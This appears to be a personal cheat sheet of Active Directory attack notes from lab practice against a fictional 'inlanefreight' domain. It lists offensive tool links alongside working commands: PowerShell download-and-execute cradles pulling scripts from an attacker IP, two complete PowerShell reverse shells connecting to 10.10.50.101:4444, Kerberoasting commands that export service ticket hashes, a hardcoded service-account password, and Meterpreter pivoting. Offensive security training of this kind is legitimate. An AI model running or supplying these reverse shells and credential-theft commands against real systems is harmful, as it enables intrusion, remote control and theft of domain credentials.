 # aaaxxqqq

https://www.thehacker.recipes/ad/movement/kerberos/asreproast

Rubeus ->  https://github.com/GhostPack/Rubeus


Metasploit
https://www.offsec.com/metasploit-unleashed/msfvenom/
https://www.beyondtrust.com/blog/entry/how-to-use-metasploit-for-command-control
https://github.com/lexisrepo/Shells
https://0xdf.gitlab.io/2022/07/16/htb-acute.html

iex ((New-Object Net.WebClient).DownloadString('http://10.10.14.244/ps.ps1'))
IEX([Net.Webclient]::new().DownloadString($url))
https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1



$client = New-Object System.Net.Sockets.TCPClient('10.10.50.101',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
$sm=(New-Object Net.Sockets.TCPClient('10.10.50.101',4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}



sharphound
https://github.com/SpecterOps/SharpHound
bloodhound -> 


impacket
https://github.com/fortra/impacket

[
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1)
shell
powershell.exe Invoke-WebRequest -Uri "http://10.10.15.253:8000/PowerView.ps1" -OutFile “C:\PowerView.ps1"

Get-DomainUser -SPN | Select-Object samaccountname,serviceprincipalname
Get-DomainUser -Identity svc_sql -SPN | Get-DomainSPNTicket –Format Hashcat | Out-File .\svc_sql_tgs_hash.txt


username-passs
$username = "inlanefreight\svc_sql"
$password = "lucky7"
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ($username, $securePassword)


arp -a 
fping

portfwd add -l 7878 -p 445 -r 172.16.6.50

Mimikatz
https://github.com/ParrotSec/mimikatz/blob/master/x64/mimikatz.exe


runas /netonly /user:INLANEFREIGHT\tpetty powershell


run autoroute -s 172.16.6.3/16



$sid = Convert-NameToSid username
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}






